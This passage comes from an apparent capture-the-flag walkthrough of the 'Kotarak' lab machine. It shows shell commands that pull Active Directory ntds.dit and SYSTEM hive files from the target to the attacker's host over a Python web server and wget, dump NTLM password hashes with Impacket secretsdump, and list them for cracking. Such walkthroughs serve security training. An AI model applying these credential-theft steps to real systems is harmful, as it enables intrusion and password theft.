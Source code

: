 We don’t have permission. Next, view the content of _tomcat_’s home directory.

```text
tomcat@kotarak-dmz:/backups/backups$ cd /hometomcat@kotarak-dmz:/home$ ls
atanas  tomcattomcat@kotarak-dmz:/home$ cd tomcat/to_archive/pentest_data/tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

The _pentest\_data_ directory seems to contain the ntds.dit and SYSTEM registry hive files. We can use these files to extract Active Directory password hashes. First, let’s confirm the file types.

```text
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ file *
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit: data
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above
```

Next, transfer these files to our attack machine. Set up a python server on the target machine.

```text
python -m SimpleHTTPServer 5555
```

Then download the files on the target machine.

```text
wget http://10.10.10.55:5555/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.ditwget http://10.10.10.55:5555/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Use [Impacket’s secretdump script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract passwords.

```text
impacket-secretsdump -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
```

This gives us a dump of hashes of which only two are of interest to us.

```text
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.ditAdministrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
...
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```

Extract the hashes and crack them using [CrackStation](https://crackstation.net/).

```text
e64fe0f24ba2489c05e64354d74ebd11
31d6cfe0d16ae931b73c59d7e0c089c0
2b576acbe6bcfda7294d6bd18041b8fe
```
